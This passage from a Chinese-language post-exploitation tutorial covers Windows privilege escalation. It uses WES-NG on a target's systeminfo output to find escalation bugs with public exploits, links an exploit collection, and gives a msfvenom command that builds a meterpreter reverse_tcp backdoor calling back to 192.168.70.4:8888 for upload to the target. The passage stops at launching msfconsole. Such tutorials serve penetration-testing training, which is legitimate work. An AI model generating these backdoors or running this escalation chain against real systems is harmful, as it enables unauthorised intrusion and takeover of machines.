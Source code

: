 ① 在本地主机上执行以下命令，更新最新的漏洞数据库

```python
python wes.py  --update
```

② 在目标主机上执行 `systeminfo` 命令，并将执行结果保存到 `systeminfo.txt` 中。

![image-20241009112844361](https://image.201068.xyz/assets/38.后渗透/image-20241009112844361.png)

然后下载systeminfo.txt，使用 WES-NG 进行检查即可

```python
python wes.py systeminfo.txt --impact "Elevation of Privilege"
```

>  `--impact` 指定漏洞类型为提权漏洞

![image-20241009113239482](https://image.201068.xyz/assets/38.后渗透/image-20241009113239482.png)

③ 执行以下命令，查找所有已公开 EXP 的提权漏洞

```python
python wes.py systeminfo.txt --impact "Elevation of Privilege" --exploits-only
```

![image-20241009113429556](https://image.201068.xyz/assets/38.后渗透/image-20241009113429556.png)

##### EXP收集地址：

提权漏洞大合集，各种提权漏洞利用工具：

https://github.com/Ascotbe/Kernelhub/tree/master/Windows

### 1.2.使用metasplit 提权

metasplit 是一款开源的安全漏洞检测工具，可以帮助安全和IT专业人士识别安全性问题，验证漏洞的缓解措施，并管理专家驱动的安全性进行评估，提供真正的安全风险情报。这些功能包括智能开发，代码审计，Web应用程序扫描，社会工程。

团队合作，在Metasploit和综合报告提出了他们的发现。

#### 1.2.1.提权过程

```python
msfvenom -p  windows/meterpreter/reverse_tcp LHOST=192.168.70.4 LPORT=8888 -f exe -o msf_8888.exe
```

![image-20241009135828723](https://image.201068.xyz/assets/38.后渗透/image-20241009135828723.png)

#### 1.2.2.把生成的后门文件上传到可执行目录

![image-20241009140202379](https://image.201068.xyz/assets/38.后渗透/image-20241009140202379.png)

#### 1.2.3.启动 metasplite

在kali上 使用 msfconsole 命令 

```python
msfconsole
```
